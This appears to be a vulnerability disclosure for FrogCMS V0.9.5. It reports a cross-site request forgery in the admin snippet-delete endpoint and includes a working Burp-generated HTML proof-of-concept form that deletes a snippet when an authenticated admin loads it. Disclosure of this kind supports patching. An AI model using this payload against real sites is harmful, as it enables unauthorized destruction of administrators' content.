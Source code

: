 
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/snippet/delete/3

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/snippet/delete/3" method="POST">
      <input type="hidden" name="/snippet/delete/3" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

